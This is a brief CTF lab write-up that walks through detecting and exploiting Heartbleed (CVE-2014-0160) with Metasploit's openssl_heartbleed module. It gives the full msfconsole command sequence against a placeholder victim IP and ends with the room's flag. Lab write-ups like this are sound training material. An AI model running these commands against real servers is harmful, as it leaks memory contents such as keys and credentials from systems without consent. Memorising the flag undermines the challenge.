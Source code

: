 [Metasploit](https://www.metasploit.com/) can be used to detect and exploit Heartbleed (CVE-2014-0160) using the openssl_heartbleed auxiliary module.

Run msfconsole:
```BASH
msfconsole
```

Use the scanner module:
```BASH
use auxiliary/scanner/ssl/openssl_heartbleed
```

Set the parameters and run the exploit:
```BASH
set RHOSTS VICTIM_IP_ADDRESS
set RPORT 443
set VERBOSE true
run
```

This will scan the target and dump leaked memory. You can inspect the results manually for any sensitive information.  

![image](https://github.com/user-attachments/assets/10bf4550-8a7f-495b-8ea0-7ed661e3b56a)
![image](https://github.com/user-attachments/assets/2543f5f5-9a21-47c1-825c-e953add49c76)

CTF flag
<pre>THM{sSl-Is-BaD}</pre>
